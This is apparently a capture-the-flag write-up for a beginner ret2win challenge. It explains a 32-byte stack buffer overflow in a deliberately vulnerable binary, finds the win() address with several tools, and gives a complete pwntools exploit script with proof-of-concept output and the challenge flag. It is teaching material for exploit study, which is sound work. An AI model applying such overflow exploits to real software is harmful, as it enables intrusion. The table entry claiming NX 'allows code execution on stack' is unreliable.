



# [__Challenge1__](#)

## Description: 

* Simple ret2win example, overflow the buffer and overwrite the return address with the address of win.

## Objective: 

* ret2win

## Flag:
* `FLAG{ret2win_1s_345y}`

## Difficulty:
* `Easy`

## Challenge:

First of all, we start with a `file`:  

```console
➜  challenge git:(main) ✗ file challenge1 
challenge1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6f9a0910b9f0cbb1781479710d95aaae4ea65b31, not stripped
```

It looks like `challenge0`.

* `ELF`: Stands for `Executable and Linkable Format` or `Extensible Linking Format` and it is the most common format for executable files, shared libraries and objects. 
* `64-bit LSB x86-64`: The binary has been compiled at a x86-64 operating system and can be executed there. `LSB` stands for `least-significant byte` and defines the endianness of the binary. This one uses little-endian. 
* `shared object`: It is generated from one or more relocatable objects.
* `dynamically linked`: A pointer to the file being linked in is included in the executable and the contents of the file are **not** included at link time. These files are used when the program is run.
* `not stripped`: It has debugging information inside it.

After we got the basic information out of the binary, we can run `strings`, to see any helpful string that exist inside it.

```
<SNIP>                                               
[4mStack frame layout
[0m%s 
|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- %d bytes
| Return addr |
|     SFP     |
|  Buffer[%d] |
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses
[*] The buffer is [%d] bytes long and 'scanf("%%s", buf)' has no size limitation.
[*] Overflow the buffer and SFP with junk and then overwrite the 'Return Address' with the address of 'win()'.

%s[-] You failed!
<SNIP>
```

### Protections 🛡️

```gdb
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge1/challenge/challenge1'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Full
```

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Having `canary` and `PIE` disabled, means that we might have a possible `buffer overflow`.

The interface of the program looks like this:



As we noticed before, there is indeed a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  setup();
  vulnerable_function();
  printf("\n%s[-] You failed!\n",&DAT_00400c18);
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  undefined local_28 [32];
  
  buffer_demo();
  printf(
         "\n[*] The buffer is [%d] bytes long and \'scanf(\"%%s\", buf)\' has no sizelimitation.\n[*] Overflow the buffer and SFP with junk and then overwrite the \'Return Address\' with the address of \'win()\'.\n\n> "
         ,0x20);
  __isoc99_scanf(&DAT_00401010,local_28);
  return;
}
```

It calls `buffer_demo()` which prints the stack frame we saw at the interface. Then, it calls `scanf("%s", local_28)`. 



`local_28` is a 32 bytes long buffer but, there is no limitation to our input string. It will only end when it reads a newline. That means, we can write as many characters as we desire, leading to a `Buffer Overflow`.

But, what can we do after we overflow the buffer? We need to overwrite `return address` with something useful. 

### win() 🏆

```c
void win(void)

{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  FILE *local_10;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  puts("\x1b[1;32m");
  puts("\n[+] You managed to redirect the program\'s flow!\n[+] Here is your reward:\n");
  local_10 = fopen("./flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    printf("%s[-] Error opening flag.txt!\n",&DAT_00400c18);
                    /* WARNING: Subroutine does not return */
    exit(0x45);
  }
  fgets((char *)&local_38,0x20,local_10);
  puts((char *)&local_38);
  fclose(local_10);
  return;
}
```
As expected from the previous example, this function reads and prints the flag for us. 

### Goal 🥅

Our goal is to reach this function, which is never called. What we are going to do is:

Let's keep in mind the interface of the program:

```console
➜  challenge git:(main) ✗ ./challenge1 


🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩
🔩                                                      🔩
🔩  This is a simple Buffer Overflow example : ret2win  🔩
🔩                                                      🔩
🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩🔩


Stack frame layout looks like this:

|_____________|
|             |  <- 48 bytes
| Return addr |
|_____________|
|             |  <- 40 bytes
|     SFP     |
|_____________|
|             |  <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________|


[*] The buffer is [32] bytes long and 'scanf("%s", buf)' has no size limitation.
[*] Overflow the buffer and SFP with junk and then overwrite the 'Return Address' with the address of 'win()'.
```

* Fill the `local_28[32]` buffer with 32 bytes of junk.
* Overwrite the `stack frame pointer` with 8 bytes of junk.
* Overwrite the `return address` with the address of `win()`, 8 bytes aligned and correct endianness.

But, what exactly is [endianness](https://www.geeksforgeeks.org/little-and-big-endian-mystery/)?

It actually is the way of storing multibyte data types like `double`, `char`, `int` and so on. 

* `Little endian`: **Last** byte of the multibyte data-type is stored first.

* `Big endian`: **First** byte of the multibyte data-type is stored first.

```console
➜  challenge git:(main) ✗ file challenge1 
challenge1: ELF 64-bit LSB executable, x86-64...
```

So, this is a LSB executable, meaning it runs with Little Endianness. It is also a 64-bit, means that each address shall be 8 bytes long and not 4. 

Once we find the address of `win()`, we have to convert it to this.

### Debugging 🐞

There are multiple ways to find the address of a function. 

* `Disassembler`
* `Debugger`
* `objdump`
* `readelf`
* `pwntools`

We are going to show all 5 of them, but on later examples, we are just going to use `pwntools`.

### Disassembler ⛏️

Inside the disassembler, we can just go to the function we want and go there.



We can see that the address of `win()` is: `0x004008e7`. First of all, we need it to be 8 bytes aligned, resulting in this: `0x00000000004008e7`. Now, this should be converted to little endian.

`\xe7\x08\x40\x00\x00\x00\x00\x00`: These are the 8 bytes that represent the address of `win()` in little endian.

We have found and converted the address of `win()` with disassembler, now we are going to verify it with the other methods.

### Debugger

Inside the debugger, we can just `p` or `print` the address of function like this:

```gdb
gef➤  print win
$1 = {<text variable, no debug info>} 0x4008e7 <win>
gef➤  p win
$2 = {<text variable, no debug info>} 0x4008e7 <win>
```

### objdump 🗑️

```console
➜  challenge git:(main) ✗ objdump  
Usage: objdump <option(s)> <file(s)>
 Display information from object <file(s)>.
 At least one of the following switches must be given:
  -a, --archive-headers    Display archive header information
  -f, --file-headers       Display the contents of the overall file header
  -p, --private-headers    Display object format specific file header contents
  -P, --private=OPT,OPT... Display object format specific contents
  -h, --[section-]headers  Display the contents of the section headers
  -x, --all-headers        Display the contents of all headers
  -d, --disassemble        Display assembler contents of executable sections
  -D, --disassemble-all    Display assembler contents of all sections
  -S, --source             Intermix source code with disassembly
  -s, --full-contents      Display the full contents of all sections requested
  -g, --debugging          Display debug information in object file
  -e, --debugging-tags     Display debug information using ctags style
  -G, --stabs              Display (in raw form) any STABS info in the file
  -W[lLiaprmfFsoRtUuTgAckK] or
  --dwarf[=rawline,=decodedline,=info,=abbrev,=pubnames,=aranges,=macro,=frames,
          =frames-interp,=str,=loc,=Ranges,=pubtypes,
          =gdb_index,=trace_info,=trace_abbrev,=trace_aranges,
          =addr,=cu_index,=links,=follow-links]
                           Display DWARF info in the file
  -t, --syms               Display the contents of the symbol table(s)
  -T, --dynamic-syms       Display the contents of the dynamic symbol table
  -r, --reloc              Display the relocation entries in the file
  -R, --dynamic-reloc      Display the dynamic relocation entries in the file
  @<file>                  Read options from <file>
  -v, --version            Display this program's version number
  -i, --info               List object formats and architectures supported
  -H, --help               Display this information
```

```console
➜  challenge git:(main) ✗ objdump -t ./challenge1| grep win
00000000004008e7 g     F .text	00000000000000b0              win
```

From the `man` page of `objdump`:

```console
DESCRIPTION
objdump displays information about one or more object files. The options control what particular information to display. This information is mostly useful to programmers who are working on the compilation tools, as opposed to programmers who just want their program to compile and work. 
```

### readelf 📖

```console
➜  challenge git:(main) ✗ readelf
Usage: readelf <option(s)> elf-file(s)
 Display information about the contents of ELF format files
 Options are:
  -a --all               Equivalent to: -h -l -S -s -r -d -V -A -I
  -h --file-header       Display the ELF file header
  -l --program-headers   Display the program headers
     --segments          An alias for --program-headers
  -S --section-headers   Display the sections' header
     --sections          An alias for --section-headers
  -g --section-groups    Display the section groups
  -t --section-details   Display the section details
  -e --headers           Equivalent to: -h -l -S
  -s --syms              Display the symbol table
     --symbols           An alias for --syms
  --dyn-syms             Display the dynamic symbol table
  -n --notes             Display the core notes (if present)
  -r --relocs            Display the relocations (if present)
  -u --unwind            Display the unwind info (if present)
  -d --dynamic           Display the dynamic section (if present)
  -V --version-info      Display the version sections (if present)
  -A --arch-specific     Display architecture specific information (if any)
  -c --archive-index     Display the symbol/file index in an archive
  -D --use-dynamic       Use the dynamic section info when displaying symbols
  -x --hex-dump=<number|name>
                         Dump the contents of section <number|name> as bytes
  -p --string-dump=<number|name>
                         Dump the contents of section <number|name> as strings
  -R --relocated-dump=<number|name>
                         Dump the contents of section <number|name> as relocated bytes
  -z --decompress        Decompress section before dumping it
  -w[lLiaprmfFsoRtUuTgAckK] or
  --debug-dump[=rawline,=decodedline,=info,=abbrev,=pubnames,=aranges,=macro,=frames,
               =frames-interp,=str,=loc,=Ranges,=pubtypes,
               =gdb_index,=trace_info,=trace_abbrev,=trace_aranges,
               =addr,=cu_index,=links,=follow-links]
                         Display the contents of DWARF debug sections
  --dwarf-depth=N        Do not display DIEs at depth N or greater
  --dwarf-start=N        Display DIEs starting with N, at the same depth
                         or deeper
  -I --histogram         Display histogram of bucket list lengths
  -W --wide              Allow output width to exceed 80 characters
  @<file>                Read options from <file>
  -H --help              Display this information
  -v --version           Display the version number of readelf
```

From the `man` page of `readelf`:
```console
ESCRIPTION
       readelf displays information about one or more ELF format object files.  The options control what particular information to display.

       elffile... are the object files to be examined.  32-bit and 64-bit ELF files are supported, as are archives containing ELF files.

       This program performs a similar function to objdump but it goes into more detail and it exists independently of the BFD library, so if there is a
       bug in BFD then readelf will not be affected.
```

```console
➜  challenge git:(main) ✗ readelf -s ./challenge1 | grep win
    64: 00000000004008e7   176 FUNC    GLOBAL DEFAULT   13 win
```

### Pwntools 🛠️

We are going to use the [`ELF`](https://docs.pwntools.com/en/stable/elf/elf.html) module to get the address of `win`.

For packing, `pwntools` have a built-in function, [`p64()`](https://docs.pwntools.com/en/stable/util/packing.html). 

It is mainly used for packing integers. From the official page of pwntools:

```console
Module for packing and unpacking integers.

Simplifies access to the standard struct.pack and struct.unpack functions, and also adds support for packing/unpacking arbitrary-width integers.

The packers are all context-aware for endian and signed arguments, though they can be overridden in the parameters.
```

```python
e = ELF(fname)
r = process(fname)
print("Address of win:       0x{}".format(hex(e.sym.win)))
print("p64() address of win: {}".format(p64(e.sym.win))) 
```

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge1/challenge/challenge1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './challenge1': pid 11566
Address of win:       0x0x4008e7
p64() address of win: b'\xe7\x08@\x00\x00\x00\x00\x00'
```

The only difference with our theoritical result is the "@" symbol. We had "\x40" instead of that. This happens because the "@" in hex is 0x40. So, the output string is converted to this. From the `man` page of `ascii`:

```console
<SNIP>
Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
────────────────────────────────────────────────────────────────────────
000   0     00    NUL '\0' (null character)   100   64    40    @
<SNIP>
```

As we saw, we found the address of a function with 5 different ways. From now on, we are just going to use the `pwntools` method as it is dynamic and easy to use.

Our final payload, now that we have the address of `win()`, should look like this:

```python
payload = "A"*40 + p64(e.sym.win)
```

This translates to 40 bytes of junk to fill the buffer and overwrite the `SFP`, and 8 bytes of `win` to overwrite the `return address`.

I have created a function that automatically finds the buffer overflow offset, so that the script is more dynamic.

```python
def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.2)
    
    # If the exit code == -1 (SegFault)
    if r.poll() == -11:
      print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i-1), "green"))
      r.close()
      return i-1
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()
```

This actually bruteforces `max_num` times, which is given by the user, opening and closing processes each time and if the return code is -11, which indicates Segmentation fault, then it returns this offset.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

fname = "./challenge1" 

LOCAL = False

e     = ELF(fname)

prompt = ">"

def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.2)
    
    # If the exit code == -1 (SegFault)
    if r.poll() == -11:
      print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i-1), "green"))
      r.close()
      return i-1
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()

def pwn():
  # Find the overflow offset
  offset = find_boffset(200)
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)
  
  # Call the function to send  
  r.sendlineafter(">", b"A"*offset + p64(e.sym.win))

  # Read flag - unstable connection
  try:
    flag = r.recvline_contains("FLAG").decode()
    print(colored("\n[+] Flag: {}\n".format(flag), "green"))
  except:
    print(colored("\n[-] Failed to connect!\n", "red"))

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge1/challenge/challenge1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 40

[+] Flag: FLAG{ret2win_1s_345y}
```